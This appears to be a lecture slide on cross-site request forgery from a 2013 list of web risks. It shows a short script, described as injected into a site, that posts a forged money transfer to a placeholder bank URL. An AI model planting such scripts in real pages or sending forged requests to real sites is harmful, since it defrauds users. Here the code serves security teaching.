

# #8 2013 - Cross-site request forgery
Example of XSS + CSRF: Bad JS injected into a ju.se.
<script>
const request = new XMLHttpRequest()
request.open("POST", "http://bank.com/transfer")
request.send("from=you&to=hacker&amount=1000")
</script>